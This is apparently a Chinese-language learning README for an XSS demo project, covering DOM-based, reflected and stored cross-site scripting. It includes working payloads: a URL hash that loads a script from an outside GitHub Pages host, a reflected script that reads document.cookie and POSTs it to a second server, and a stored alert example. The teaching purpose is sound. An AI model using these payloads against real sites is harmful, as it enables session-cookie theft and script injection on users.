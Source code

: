 # xss_learn
xss学习

### dom 型

> dom 型由浏览器执行，与后端无关，需要前端规避。

访问 `domTest.html`，加上 hash 值：
```
// 可以通过本地 http-server 启动一个服务
http://127.0.0.1:8080/domTest.html#document.write("<script/src=//askybig.github.io/ImageStore/xss.js></script>")
```

### 反射型

> 反射型属于后端控制，对输入负责。

分别启动 3000 和 3001端口，在 3000页面输入url：
```
测试数据</h><script>(function () {var str = document.cookie;console.log('str', str);var request=new XMLHttpRequest();request.onreadystatechange=function(){if(request.readyState===4){if(request.status===200){console.log("success");return request}else{console.log("fail");return request}}else{}};request.open("POST","http://localhost:3001/xssattack");request.send(str);})()</script>
```
可以看到3000 端口的 Cookie 被 3001 拿到了。

<img src="https://github.com/ASkyBig/ImageStore/blob/master/reflect.gif?raw=true" width="1600px">

### 存储型

> 存储型也属于后端控制，对输入负责。

如果没有做过滤，比如将数据库存储的某条评论 `<script>alert(1)</script>` 拼接在评论列表的 HTML 上，用户访问就会造成存储型 xss 攻击。
